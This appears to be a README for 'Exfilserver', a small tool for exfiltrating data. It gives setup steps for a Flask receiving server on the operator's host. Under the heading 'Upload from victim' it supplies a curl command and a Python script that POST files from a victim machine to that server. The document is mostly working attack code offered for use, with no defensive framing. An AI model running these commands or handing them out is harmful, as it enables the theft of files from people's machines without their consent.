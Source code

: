 ## Exfilserver

> Data exfiltration via upload using curl or similar...

### Run in you host:

```sh
pip install Flask \
python3 server.py -p 80 -f /tmp/files
```

### Upload from victim:

> By Curl:

```sh
curl -X POST -F "file=@./file" http://<youhostname>:80/exf
```

> By python:
```
import requests
import sys

def upload_file(server_url, file_path):
    url = f"{server_url}/exf"
    try:
        with open(file_path, 'rb') as f:
            files = {'file': (file_path, f)}
            response = requests.post(url, files=files)
        print(f"[*] Status: {response.status_code}")
        print(f"[*] Response of server: {response.text}")
    except Exception as e:
        print(f"[!] Error to send file: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"Usage: python {sys.argv[0]} <server_url> <file_path>")
        sys.exit(1)

    server_url = sys.argv[1]   # example: http://127.0.0.1:5000
    file_path = sys.argv[2]
    upload_file(server_url, file_path)
```

